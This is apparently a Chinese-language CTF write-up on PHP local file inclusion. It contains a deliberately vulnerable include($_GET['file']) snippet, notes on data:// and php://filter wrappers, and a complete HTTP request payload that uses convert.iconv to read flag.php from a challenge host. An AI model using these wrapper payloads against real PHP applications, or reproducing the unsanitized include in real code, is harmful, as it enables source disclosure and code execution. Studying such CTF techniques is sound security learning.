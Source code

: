 ```yaml
---
title: 浅谈php的文件上传
categories: WebSec
tags: 
- XCTF
- 文件上传
---
```

# 常规三件套
1. 看源码
2. 扫描dir
3. 分析抓包

源码没啥

![Alt text](image.png)

# 关于php文件上传中data协议的利用

```php
<?php
    @$file  = $_GET['file'];
    @include($file);
?>
```
闯入一个文件如果这个文件存在 就包含该文件，
但是没有上传按钮，如何上传，有这样一个方法，

# data 伪协议
php 5.2.0 起，数据流封装器开始有效，主要用于数据流的读取，如果传入的数据是PHP代码就会执行代码。使用方法为:

`data://text/plain;base64,xxxx(base64编码后的数据)`


include()会直接执行传入的php文件
<?php
echo "Hello World!";
?>
读文件协议
`php://filter/read/convert.base64-encode/resource=check.php`

> php://filter/ 是一种访问本地文件的协议，/read=convert.base64-encode/ 表示读取的方式是 base64 编码后，resource=index.php 表示目标文件为index.php。问什么要进行 base64 编码呢？如果不进行 base64 编码传入，index.php 就会直接执行，我们就看不到文件中的内容了。php 协议还常用 php://input，这可以访问请求的原始数据的只读流，可以读取 POST 请求的参数。

文件过滤
https://blog.csdn.net/woshilnp/article/details/117266628
# 
故此我们使用
```php
GET /?filename=php://filter/convert.iconv.§input-encoding§.§output-encoding§/resource=flag.php HTTP/1.1
Host: 61.147.171.105:62470
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

```
----

```
convert.iconv.<input-encoding>.<output-encoding> 
or 
convert.iconv.<input-encoding>/<output-encoding>
//支持的编码
UCS-4*
UCS-4BE
UCS-4LE*
UCS-2
UCS-2BE
UCS-2LE
UTF-32*
UTF-32BE*
UTF-32LE*
UTF-16*
UTF-16BE*
UTF-16LE*
UTF-7
UTF7-IMAP
UTF-8*
ASCII*
```

# PlayLoad
```
GET /?filename=php://filter/convert.iconv.UTF-8%2a.UTF-32%2a/resource=flag.php HTTP/1.1
Host: 61.147.171.105:62470
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```
